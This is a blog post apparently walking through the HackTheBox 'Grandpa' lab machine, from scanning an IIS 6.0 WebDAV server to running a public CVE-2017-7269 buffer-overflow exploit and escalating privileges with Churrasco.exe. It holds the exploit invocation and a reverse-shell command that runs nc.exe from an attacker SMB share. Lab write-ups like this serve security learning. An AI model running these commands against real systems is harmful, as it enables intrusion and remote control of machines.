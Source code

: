 ```yaml
---
title: "Grandpa"
date: 2023-08-30T13:24:37+02:00
tags: ["windows","web","privesc","buffer overflow"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Windows machine with a website which has a buffer overflow vulnerability which allow us to get RCE. Thanks to Churrasco.exe we exploit the SeImpersonatePrivilege to privEsc."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Grandpa
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Grandpa

![Untitled](/HTB/grandpa-icon.png)

## Tools Used

- nmap
- davtest
- searchsploit

## Port Scanning

```bash
sudo nmap $IP -n -Pn -vvv --min-rate 5000
```

```bash
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Wed, 23 Aug 2023 11:04:23 GMT
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We have only one port with a **http** site running and up.

## Enumeration

The website is gonna be our unique point of entry so let’s visit it.

![Untitled](/HTB/grandpa-1.png)

We have an **IIS** under construction page.

If we return to the **nmap** scan we can see that **webdav** is running as the granny machine so let’s test the **PUT** option with some extensions.

```bash
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.14
********************************************************
NOTE    Random string for this session: NHwzc9ANv
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     html    FAIL
PUT     php     FAIL
PUT     txt     FAIL
PUT     jsp     FAIL
PUT     cfm     FAIL
PUT     shtml   FAIL
PUT     asp     FAIL
PUT     cgi     FAIL
PUT     aspx    FAIL
PUT     jhtml   FAIL
PUT     pl      FAIL

********************************************************
/usr/bin/davtest Summary:
```

All failed 😫 so we can’t play with the extensions.

## Exploiting

As we know we have **IIS 6.0 webDAV** let’s see if there is some vuln at searchsploit

![Untitled](/HTB/grandpa-2.png)

The **remote buffer overflow** which gives us **RCE** looks great.

Once executed doesn’t seems to work pretty well so I decided to search other similar exploit.

![Untitled](/HTB/grandpa-3.png)

If we check the **exploitdb** website we can see the **CVE** so let’s google a equivalent exploit.

This **github [exploit](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)** worked for me. I perfomed the attack with the following command

```bash
python2 webdavBO.py 10.10.10.14 80 10.10.14.9 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/grandpa-4.png)

Navigating through the directories we can see the use of **Documents and Settings** folder as **Users** folder that tells you that the version is pretty older.

![Untitled](/HTB/grandpa-5.png)

If I try to access to **Harry** folder, we receive the following message.

![Untitled](/HTB/grandpa-6.png)

We need to **privEsc** in order to access to the user’s flag.

## Escalating Privilege

First of all, let’s check the current privileges

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

We can see that we have enabled the `SeImpersonatePrivilege` so as we know thanks to [Granny’s](https://pwndside.github.io/posts/granny-htb/) write up this is a vulnerability can be exploited so I am going to skip that part and go direct to the execution of **Churrasco.exe** in order to **privesc**.

```powershell
nc -lv 4445
```

```powershell
.\churrasco.exe "\\10.10.14.9\smbFolder\nc.exe -e cmd 10.10.14.9 4445"
```

![Untitled](/HTB/grandpa-7.png)

It has worked.

### Flag(s)

**User’s flag**

![Untitled](/HTB/grandpa-8.png)

**Root’s flag**

![Untitled](/HTB/grandpa-9.png)

**Thank you for reading, and happy hacking! 😄**